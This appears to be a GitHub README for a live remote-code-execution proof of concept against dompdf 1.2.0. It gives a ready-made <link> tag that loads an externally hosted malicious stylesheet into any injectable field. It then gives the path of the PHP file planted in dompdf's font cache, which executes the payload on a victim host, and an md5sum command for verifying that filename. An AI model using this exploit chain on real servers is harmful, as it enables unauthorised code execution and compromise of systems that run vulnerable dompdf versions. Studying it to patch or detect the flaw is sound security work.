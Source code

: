 # Live RCE POC for dompdf 1.2.0

1. Use the following <link> tag in any injectable field: 
   - `<link rel=stylesheet href='https://abhishekg999.github.io/dompdf/exploit.css'>`
2. Navigate to `http://[VICTIM_HOST]/dompdf/lib/fonts/exploitfont_normal_de7ec71473780093df11e62fab83211f.php`
3. Profit?


The hash should be correct, you can verify the hash yourself:
```console
user@console:~$ echo -n [PHP_PAYLOAD_URL_AT_IT_IS_IN_THE_CSS_FILE] | md5sum
de7ec71473780093df11e62fab83211f  -
```
